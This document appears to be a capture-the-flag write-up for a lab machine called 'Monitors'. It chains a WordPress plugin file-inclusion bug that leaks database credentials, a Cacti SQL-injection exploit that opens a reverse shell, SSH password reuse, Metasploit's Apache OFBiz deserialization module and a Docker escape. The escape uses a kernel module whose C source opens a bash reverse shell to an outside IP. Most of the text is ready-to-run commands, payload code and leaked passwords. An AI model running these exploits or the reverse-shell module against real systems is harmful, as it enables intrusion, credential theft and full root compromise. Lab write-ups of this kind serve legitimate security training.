


```
sudo nmap -n -Pn -sS -A 10.10.10.238 --open -p-                                            

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
```

Nothing out of the ordinary, after having a look at the website we immediately realized it is running wordpress so let's fire up wpscan:
```
[i] Plugin(s) Identified:

[+] wp-with-spritz
 | Location: http://monitors.htb/wp-content/plugins/wp-with-spritz/
 | Latest Version: 1.0 (up to date)
 | Last Updated: 2015-08-20T20:15:00.000Z
 |
 | Found By: Urls In Homepage (Passive Detection)
 |
 | Version: 4.2.4 (80% confidence)
 | Found By: Readme - Stable Tag (Aggressive Detection)
 |  - http://monitors.htb/wp-content/plugins/wp-with-spritz/readme.txt
```

After a quick google search we found that this plugin is vulnerable to LFI and RFI: https://www.exploit-db.com/exploits/44544

So let's see if we can confirm that:

http://monitors.htb/wp-content/plugins/wp-with-spritz/wp.spritz.content.filter.php?url=/etc/passwd

```
root:x:0:0:root:/root:/bin/bash 
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin 
bin:x:2:2:bin:/bin:/usr/sbin/nologin 
sys:x:3:3:sys:/dev:/usr/sbin/nologin 
sync:x:4:65534:sync:/bin:/bin/sync 
games:x:5:60:games:/usr/games:/usr/sbin/nologin 
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin 
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin 
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin 
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin 
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin 
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin 
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin 
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin 
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin 
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin 
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin 
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin 
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin 
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin 
syslog:x:102:106::/home/syslog:/usr/sbin/nologin 
messagebus:x:103:107::/nonexistent:/usr/sbin/nologin 
_apt:x:104:65534::/nonexistent:/usr/sbin/nologin lxd:x:105:65534::/var/lib/lxd/:/bin/false 
uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin 
dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin 
landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin 
sshd:x:110:65534::/run/sshd:/usr/sbin/nologin 
marcus:x:1000:1000:Marcus Haynes:/home/marcus:/bin/bash 
Debian-snmp:x:112:115::/var/lib/snmp:/bin/false 
mysql:x:109:114:MySQL Server,,,:/nonexistent:/bin/false 
```

Sweet it works. Let'S have a look at some more interesting files:

http://monitors.htb/wp-content/plugins/wp-with-spritz/wp.spritz.content.filter.php?url=../../../wp-config.php

```
/** MySQL database username */
define( 'DB_USER', 'wpadmin' );

/** MySQL database password */
define( 'DB_PASSWORD', 'BestAdministrator@2020!' );

define( 'AUTH_KEY',         'KkY%W@>T}4CKTw5{.n_j3bywoB0k^|OKX0{}5|UqZ2!VH!^uWKJ.O oROc,h pp:' );
define( 'SECURE_AUTH_KEY',  '*MHA-~<-,*^$raDR&uxP)k(~`k/{PRT(6JliOO9XnYYbFU?Xmb#9USEjmgeHYYpm' );
define( 'LOGGED_IN_KEY',    ')F6L,A23Tbr9yhrhbgjDHJPJe?sCsDzDow-$E?zYCZ3*f40LSCIb] E%zrW@bs3/' );
define( 'NONCE_KEY',        'g?vl(p${jG`JvDxVw-]#oUyd+uvFRO1tAUZQG_sGg&Q7O-*tF[KIe$weE^$bB3%C' );
define( 'AUTH_SALT',        '8>PIil3 7re_:3&@^8Zh|p^I8rwT}WpVr5|t^ih05A:]xjTA,UVXa8ny:b--/[Jk' );
define( 'SECURE_AUTH_SALT', 'dN c^]m:4O|GyOK50hQ1tumg4<JYlD2-,r,oq7GDjq4M Ri:x]Bod5L.S&.hEGfv' );
define( 'LOGGED_IN_SALT',   'tCWVbTcE*_T_}X3#t+:)>N+D%?vVAIw#!*&OK78M[@ YT0q):G~A:hTv`bO<,|68' );
define( 'NONCE_SALT',       'sa>i39)9<vVyhE3auBVzl%=p23NJbl&)*.{`<*>;R2=QHqj_a.%({D4yI-sy]D8,' );
```

We got creds for the wp database and some keys. Unfortunately we can't forge cookies anymore with the keys, that has been fixed for a couple of years now.

We can't use those creds anywhere either so we need to find some more interesting files. Let's automate that process:
```
wfuzz -w /usr/share/wordlists/seclists/Fuzzing/LFI/LFI-LFISuite-pathtotest-huge.txt -u http://monitors.htb/wp-content/plugins/wp-with-spritz/wp.spritz.content.filter.php?url=FUZZ --hh 0
```

In the `http://monitors.htb/wp-content/plugins/wp-with-spritz/wp.spritz.content.filter.php?url=/../../../..//proc/self/fd/10` file we find an interesting subdomain:
```
http://cacti-admin.monitors.htb
```

Let's add that to our hosts file and have a look. We have a login form at an instance of [cacti](https://www.cacti.net/) and we can authenticate as admin with the password we already found:

```
admin:BestAdministrator@2020!
```

It is running version 1.2.12 which is outdated as the most recent version is 1.2.17, a quick google search presented us this [exploit](https://www.exploit-db.com/exploits/49810).

We run it with this syntax and catch a reverse shell with a netcat listener:
```
python3 cacti.py -t http://cacti-admin.monitors.htb/ -u admin -p BestAdministrator@2020! --lhost 10.10.14.59 --lport 4444


[+] Connecting to the server...
[+] Retrieving CSRF token...
[+] Got CSRF token: sid:980bc56c825b39336fd6a5c39bc155168d50ad63,1625163327
[+] Trying to log in...
[+] Successfully logged in!

[+] SQL Injection:
"name","hex"
"",""
"admin","$2y$10$TycpbAes3hYvzsbRxUEbc.dTqT0MdgVipJNBYu8b7rUlmB8zn8JwK"
"guest","43e9a4ab75570f5b"

[+] Check your nc listener!
```

Some basic enumeration gave us this file in the home directory of marcus:

```
$ cat .backup/backup.sh
cat .backup/backup.sh
#!/bin/bash

backup_name="cacti_backup"
config_pass="VerticalEdge2020"

zip /tmp/${backup_name}.zip /usr/share/cacti/cacti/*
sshpass -p "${config_pass}" scp /tmp/${backup_name} 192.168.1.14:/opt/backup_collection/${backup_name}.zip
rm /tmp/${backup_name}.zip
```

We can use that password to authenticate as marcus via ssh.

```
ssh marcus@10.129.169.137 
VerticalEdge2020
```

Some more enumeration:

```
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:8443          0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -                   
tcp6       0      0 :::22                   :::*                    LISTEN      -                   
tcp6       0      0 :::80                   :::*                    LISTEN      -                   
udp        0      0 127.0.0.53:53           0.0.0.0:*                           -                   
udp        0      0 0.0.0.0:68              0.0.0.0:*                           -                   
udp        0      0 127.0.0.1:161           0.0.0.0:*                           -                   
udp        0      0 0.0.0.0:41515           0.0.0.0:*                           -
```

Seems like something is running on Port 8443, however we can only access it locally so we need to portforward it:

```
ssh marcus@10.129.169.137 -L 8443:127.0.0.1:8443
```

Enumerating the local port now gives us a couple of directories:
```
/images               (Status: 302) [Size: 0] [--> /images/]
/catalog              (Status: 302) [Size: 0] [--> /catalog/]
/content              (Status: 302) [Size: 0] [--> /content/]
/common               (Status: 302) [Size: 0] [--> /common/] 
/ar                   (Status: 302) [Size: 0] [--> /ar/]     
/ebay                 (Status: 302) [Size: 0] [--> /ebay/]   
/marketing            (Status: 302) [Size: 0] [--> /marketing/]
/ecommerce            (Status: 302) [Size: 0] [--> /ecommerce/]
/passport             (Status: 302) [Size: 0] [--> /passport/] 
/ap                   (Status: 302) [Size: 0] [--> /ap/]       
/example              (Status: 302) [Size: 0] [--> /example/]  
/accounting           (Status: 302) [Size: 0] [--> /accounting/]
/projectmgr           (Status: 302) [Size: 0] [--> /projectmgr/]
/webtools             (Status: 302) [Size: 0] [--> /webtools/]  
/bi                   (Status: 302) [Size: 0] [--> /bi/]        
/myportal             (Status: 302) [Size: 0] [--> /myportal/]  
/facility             (Status: 302) [Size: 0] [--> /facility/]  
/manufacturing        (Status: 302) [Size: 0] [--> /manufacturing/]
/sfa                  (Status: 302) [Size: 0] [--> /sfa/]          
/solr                 (Status: 302) [Size: 0] [--> /solr/]         
/humanres             (Status: 302) [Size: 0] [--> /humanres/]     
/contentimages        (Status: 302) [Size: 0] [--> /contentimages/]
/partymgr             (Status: 302) [Size: 0] [--> /partymgr/]     
/ordermgr             (Status: 302) [Size: 0] [--> /ordermgr/]     
/workeffort           (Status: 302) [Size: 0] [--> /workeffort/]
```

Most of them lead to an login form of Apache OFBiz: https://127.0.0.1:8443/content/control/main

For which a metasploit module exists:

```
Module options (exploit/linux/http/apache_ofbiz_deserialization):                                                                                                                                                                            
                                                                                                                                                                                                                                             
   Name       Current Setting  Required  Description                                                                                                                                                                                         
   ----       ---------------  --------  -----------                                                                                                                                                                                         
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]                                                                                                                                        
   RHOSTS     127.0.0.1        yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'                                                                                                                  
   RPORT      8443             yes       The target port (TCP)                                                                                                                                                                               
   SRVHOST    0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.                                                               
   SRVPORT    8080             yes       The local port to listen on.                                                                                                                                                                        
   SSL        true             no        Negotiate SSL/TLS for outgoing connections                                                                                                                                                          
   SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)                                                                                                                                    
   TARGETURI  /                yes       Base path                                                                                                                                                                                           
   URIPATH                     no        The URI to use for this exploit (default is random)                                                                                                                                                 
   VHOST                       no        HTTP server virtual host


Payload options (linux/x64/shell/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.10.14.70      yes       The listen address (an interface may be specified)
   LPORT  9001             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   1   Linux Dropper
```
Also `set ForceExploit true` otherwise the module will fail.


We now have an reverse shell inside of a docker instance. Some docker enumeration and google again showed us we can abuse the SYS_MODULE capability to break out of the docker: [ref](https://blog.pentesteracademy.com/abusing-sys-module-capability-to-perform-docker-container-breakout-cf5c29956edd).

So let's give that a shot:

First we create a Makefile with this content:
```
obj-m +=reverse-shell.o
all:
    make -C /lib/modules/$(shell uname -r)/build M=$(PWD) modules
clean:
    make -C /lib/modules/$(shell uname -r)/build M=$(PWD) clean
```

then we create a reverse-shell.c:

```C
#include <linux/kmod.h>
#include <linux/module.h>
MODULE_LICENSE("GPL");
MODULE_AUTHOR("AttackDefense");
MODULE_DESCRIPTION("LKM reverse shell module");
MODULE_VERSION("1.0");
char* argv[] = {"/bin/bash","-c","bash -i >& /dev/tcp/10.10.14.59/4444 0>&1", NULL};
static char* envp[] = {"PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin", NULL };
static int __init reverse_shell_init(void) {
return call_usermodehelper(argv[0], argv, envp, UMH_WAIT_EXEC);
}
static void __exit reverse_shell_exit(void) {
printk(KERN_INFO "Exiting\n");
}
module_init(reverse_shell_init);
module_exit(reverse_shell_exit);
```

Don't forget to input your own IP for the reverse shell.
After uploading both to the docker using the meterpreter we drop into a shell and execute `make` to compile the kernel module.



Now we only need to execute `insmod reverse-shell.ko` and catch the reverse shell with netcat.



Et voilá, we are root!


